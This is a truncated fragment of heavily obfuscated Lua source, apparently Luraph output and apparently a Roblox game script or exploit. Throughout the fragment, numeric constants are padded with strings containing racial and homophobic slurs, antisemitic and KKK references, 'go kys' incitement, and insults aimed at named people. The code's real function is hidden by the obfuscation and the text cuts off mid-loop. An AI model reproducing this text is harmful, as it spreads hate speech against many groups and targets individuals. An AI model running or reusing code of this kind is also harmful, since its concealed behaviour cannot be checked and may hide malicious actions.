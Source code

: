 ,nil,nil;(function() _msec=(function(e,l,o)local V=l["         "];local G=o[e[(-#[[how to join the kkk]]+(88968/0x84))]][e["     ​   ​  "]];local b=(0x78+-116)/(((0x621c/(0x182-225))+-0x73)+-#[[papier ist ein kleiner schwanz lutscher]])local i=(0x162/((0x904e/141)+-0x55))-(0x7d-124)local Y=o[e[(427-0xfe)]][e["​  ​         "]];local y=(((0xc6+(-#'Nsrds GAYYYYAIAHAKAJAVAHAUA'+(-0x3390/220)))+-#[[Nsrds GAYYYYAIAHAKAJAVAHAUA]])-0x53)+(0x92/73)local s=o[e[((0x22ce8/(0x525c/84))+-#[[go kys go kys go kys]])]][e["              "]]local d=(0x7a-120)-((-0x41+(-#'I hate black people'+((479+-0x5a)-252)))+-#"If LocalPlayer equals Dumbass then while true do end")local C=((-#[[heil eco mother fuckers]]+(293-(0x12d+((-114+0x13)+-#"Deeznutsbutinlualoo"))))+-79)local N=(((((-64+-0x74f8)/248)+0xed)+-88)+-#[[keno 0347 is a nerdy fag]])local g=((((-#'cilerteddoesntlikeburgers'+(-7755/0xa5))+7)+3)+0x42)local p=((((-1575/0x15)-0x0)+177)+-98)local S=(91+(-783/(0x2a+(-#"algebra"+(-0x12-8)))))local P=((((((-0x18dc/148)+423736)/0xb3)+-#[[fatee is gay 0nly on top]])/213)+-#"algebra")local c=(0xd4/(((((0xc1f2/150)+-51)+-#'nerd')-161)+-#[[arab porn]]))local t=(120-(-#{",",",",1;'nil','nil'}+123))local h=(-#{1,1,{},(function()return{','}end)();(function()return#{('ploLOO'):find("\111")}>0 and 1 or 0 end),106}+8)local u=(((-#'impulse reel pastebin'+((((0x4086-8295)+-#[[windows xp startup sfx]])-4145)/52))-0x2c)+-#'panzerfaust')local f=(((-2760/(-#{'nil',39,{};",",",",1}+36))+0x11c)/96)local _=(-#'holy shit'+(73+(-15-(8789/(0xe3+-40)))))local U=(-#[[Luraph v13 has been released changed absolutely fucking nothing]]+(0x4032/(((0x1be58/(302+-0x5f))-294)+-#'kys nigga')))local M=(0x2d/((-0x3a+(-#'nico der hurensohn'+((0xac+-41)+-36)))+-#"yeet"))local k=((-#'testpsx dupe no scam legit 2022 free no virus'+(0x66fc/((39600/(225+-#{76;(function()return{','}end)(),(function()return{','}end)();'}';(function()return#{('lklBKL'):find("\108")}>0 and 1 or 0 end)}))+-#"nicowashere")))+-108)local w=((((-#{'}',100;100;",";(function()return#{('OkLHbO'):find("\76")}>0 and 1 or 0 end);(function()return#{('OkLHbO'):find("\76")}>0 and 1 or 0 end);1}+1001)-535)/27)+-#[[freerobuxphone]])local x=((0xc4e/(494-((-#"impulse was here omg"+(714+-0x51))-0x158)))+-#'nicowashere')local O=(((-0x1f+(-#{{};",";{},(function()return{','}end)();","}+94))+-#[[heil eco mother fuckers]])-0x20)local j=e[(-#"Negro"+((-#{(function()return#{('hFmhpf'):find("\109")}>0 and 1 or 0 end);46;{},(function()return#{('hFmhpf'):find("\109")}>0 and 1 or 0 end)}+1399)+-0x3e))];local F=o[e[(-#{(function()return#{('KFpPBk'):find("\112")}>0 and 1 or 0 end),{};'}'}+176)]][e["            "]];local I=o[(function(e)return type(e):sub(1,1)..'\101\116'end)('        ')..'\109\101'..('\116\97'or'​       ')..e[(0x485-609)]];local z=o[e[(-#"Fucking losed 027728272728271"+(0xe164/100))]][e["​               "]];local A=(103+-0x65)-(0x7c/((12683+-0x23)/0xcc))local m=((-0xe-(-#[[bigchungus]]+(0x9c-(29845/0xeb))))+0x23)-(-#'algebra'+(0x50-71))local H=o[e[(-#[[Crackzzzz]]+((-#'cilertedcool'+(0x7c02/78))-213))]][e["      ​         "]];local n=function(o,e)return o..e end local v=((0x77+-99)+-#[[Fucking Retarted]])*(((0x2b93/(0x103-162))-0x64)+-#"panzerfaust")local K=o[e["         "]];local r=(0x3e-60)*(0xf4+(-0x5618/(0x17c0/32)))local L=(-#"Faggot"+(0x16210/88))*(53+((-0x58+-36)+73))local J=(((-#[[Lana Rhoades]]+(-0x51+((1310-0x2c1)-351)))+-0x62)+-#[[monkey mode]])local B=(0x1f2/(36852/(2960/(0x8c-120))))*((0x96-128)+-#"33 cocks in my mouth")local D=o[e["                   "]]or o[e[(1172-0x270)]][e["                   "]];local a=(-#"Luraph v13 has been released changed absolutely fucking nothing"+(40513/((0x182+-115)-0x90)))local e=o[e["        "]];local z=(function(a)local r,l=3,0x10 local o={j={},v={}}local n=-d local e=l+i while true do o[a:sub(e,(function()e=r+e return e-i end)())]=(function()n=n+d return n end)()if n==(v-d)then n=""l=A break end end local n=#a while
e